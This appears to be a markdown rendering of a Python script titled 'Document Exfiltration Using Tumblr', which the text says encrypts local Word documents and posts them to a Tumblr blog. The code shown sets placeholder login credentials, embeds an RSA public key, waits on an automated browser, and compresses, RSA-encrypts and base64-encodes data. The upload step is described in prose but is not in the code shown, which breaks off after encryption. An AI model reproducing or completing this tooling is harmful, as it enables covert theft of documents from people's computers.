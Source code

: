 # Document Exfiltration Using Tumblr

This script appears to be designed for exfiltrating documents from a local system by uploading them to a Tumblr account. The document is encrypted, base64 encoded, and posted to the user's Tumblr blog. This is a potentially malicious script, and it should **never** be used without the explicit permission of the system owner.


```python
import win32com.client
import os
import fnmatch
import time
import random
import zlib
import base64

from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP

doc_type = ".doc" # this is not taking into account new words extensions such as .docx

# these should be your tumblr login 
username = "admin@test.com"
password = "admin" 

public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAyXUTgFoL/2EPKoN31l5T
lak7VxhdusNCWQKDfcN5Jj45GQ1oZZjsECQ8jK5AaQuCWdmEQkgCEV23L2y71G+T
h/zlVPjp0hgC6nOKOuwmlQ1jGvfVvaNZ0YXrs+sX/wg5FT/bTS4yzXeW6920tdls
2N7Pu5N1FLRW5PMhk6GW5rzVhwdDvnfaUoSVj7oKaIMLbN/TENvnwhZZKlTZeK79
ix4qXwYLe66CrgCHDf4oBJ/nO1oYwelxuIXVPhIZnVpkbz3IL6BfEZ3ZDKzGeRs6
YLZuR2u5KUbr9uabEzgtrLyOeoK8UscKmzOvtwxZDcgNijqMJKuqpNZczPHmf9cS
1wIDAQAV
-----END PUBLIC KEY-----"""

def wait_for_browser(browser):
    # wait for the browser to finish loading a page
    while browser.ReadyState != 4 and browser.ReadyState != "complete":
        time.sleep(0.1)
    return

def encrypt_string(plaintext):
    chunk_size = 208
    if isinstance(plaintext, (str)):
        plaintext = plaintext.encode()
    print(f"Compressing: {len(plaintext)} bytes")
    plaintext = zlib.compress(plaintext)
    print(f"Encrypting: {len(plaintext)} bytes")
    
    rsakey = RSA.importKey(public_key)
    rsakey = PKCS1_OAEP.new(rsakey)
    encrypted = b""
    offset = 0
    
    while offset < len(plaintext):
        chunk = plaintext[offset:offset + chunk_size]
        if len(chunk) % chunk_size != 0:
            chunk += b" " * (chunk_size - len(chunk))
        encrypted += rsakey.encrypt(chunk)
        offset += chunk_size
        
    encrypted = base64.b64encode(encrypted)
```